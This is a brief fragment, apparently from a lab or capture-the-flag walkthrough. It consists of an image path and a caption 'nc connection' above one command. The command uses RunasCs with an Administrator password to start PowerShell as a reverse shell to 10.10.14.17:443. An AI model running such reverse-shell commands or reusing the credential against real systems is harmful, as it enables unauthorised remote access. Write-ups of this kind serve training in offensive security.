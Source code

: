 
nc connection
```bash
.\RunasCs.exe Administrator Th1s889Rabb!t powershell.exe -r 10.10.14.17:443
```